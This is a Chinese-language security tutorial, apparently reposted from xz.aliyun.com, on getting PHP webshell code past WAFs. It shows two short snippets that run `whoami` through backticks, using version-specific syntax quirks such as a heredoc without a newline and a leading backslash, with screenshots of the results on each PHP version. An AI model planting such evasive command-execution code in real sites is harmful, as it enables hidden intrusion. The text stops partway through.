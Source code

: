 作者：Icepaper

原文地址：https://xz.aliyun.com/t/10937

php的免杀
------

* * *

传统的php免杀不用多说了 无非就是各种变形和外部参数获取，对于一些先进的waf和防火墙来说，不论如何解析最终都会到达命令执行的地方，但是如果语法报错的话，就可能导致解析失败了，这里简单说几个利用php版本来进行语义出错的php命令执行方式。

### 一、利用在高版本php语法不换行来执行命令

```
<?=  
$a=<<< aa  
assasssasssasssasssasssasssasssasssasssasssassss  
aa;echo `whoami`  
?>
```

#### 5.2版本报错

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUdvaf8aLq4kN0ev5hlnZp7MdgA6vWE1RAhtbJ1OrSoFWeqMcoU5JXicg/640?wx_fmt=png)

#### 5.3报错

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUlkO3gLJmwQQbnkMyveHzZYe6MqHmE9p677mW6PZibZGkfRpGTgtHqFQ/640?wx_fmt=png)

#### 5.4版本报错

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUyA10mMt1hJVfmdhsunhfmVL5orGqXOsZlWvKiawlSRmDK8J8RLMQ3EQ/640?wx_fmt=png)

#### 7.3.4成功执行命令

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUIsBRsmBvT5oH2LTt0yADcibkQMhz5RK6LGzpVoOSAQPgYy2Ah2RcD3g/640?wx_fmt=png)

### 3、利用\\特殊符号来引起报错

```
<?php  
\echo `whoami`;?>
```

#### 5.3执行命令失败

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUAwrv7YeHI0icXPGBoZmYUPasUXDrXDOfoibGsPEXpPRYpDgvT7CA5R3Q/640?wx_fmt=png)

#### 7.3执行命令失败

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSFwr6MCl7a5Leyw8icSTvTCUovPwXQd7tNYTKVHRTD4sgNoxC2BFzpKEtt4jNPkNCDXwia8Btov8EFQ/640?wx_fmt=png)

#### 5.2成功执行
